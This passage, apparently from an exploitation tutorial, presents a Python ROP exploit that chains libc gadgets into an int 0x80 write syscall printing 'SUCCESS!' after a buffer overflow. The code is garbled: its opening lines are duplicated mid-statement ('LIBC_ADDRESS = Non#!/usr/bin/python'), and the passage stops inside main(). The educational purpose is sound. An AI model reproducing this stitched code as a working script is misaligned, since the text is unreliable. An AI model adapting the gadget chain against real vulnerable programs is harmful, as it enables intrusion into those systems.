 
Now we can throw it all together and generate our full exploit!

<strong>exploit.py</strong>
```python 
#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = Non#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)

def set_edx(value):
  # 0x00001aa6 : pop edx ; ret   
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret     
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret  
  return libc_addr(0x0002406e) + struct.pack('<I', value)

def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret 
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80       
  return libc_addr(0x00002c87)

def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop

def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
```